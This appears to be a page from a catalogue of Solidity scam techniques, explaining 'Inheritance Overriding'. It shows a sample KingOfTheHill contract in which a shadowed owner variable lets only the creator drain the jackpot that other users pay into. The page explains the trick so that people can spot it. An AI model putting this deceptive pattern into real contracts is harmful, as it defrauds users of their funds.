\section{Inheritance Overriding}

\subsection{Evades}

Source code reviews with subtle exploitation of the compilation process.

\subsection{How}

The malicious contract inherits from standard code like \emph{Ownable}, \emph{Upgradeable}, etc.

It overwrites key elements by:

\begin{itemize}
\item{adding a variable definition for an existing keyword}
\item{polymorphism, which allows to have several versions of a function}
\end{itemize}

Then a single keyword can refer to different implementations depending on its context.

The resulting contract doesn't behave like its parent, while looking legitimate.

\subsection{Samples}

\subsubsection{Attribute Overwriting}

\emph{KingOfTheHill} inherits from \emph{Ownable} but the original \emph{owner} cannot be changed:

\begin{highlight}
\begin{lstlisting}[language=Solidity]
contract KingOfTheHill is Ownable {
    address public owner; // different from the owner in Ownable

    function () public payable {
        if(msg.value > jackpot) owner = msg.sender; // local owner
        jackpot += msg.value;
    }
    function takeAll () public onlyOwner { // owner from Ownable = contract creator
        msg.sender.transfer(this.balance);
        jackpot = 0;
    }
}
\end{lstlisting}
\end{highlight}

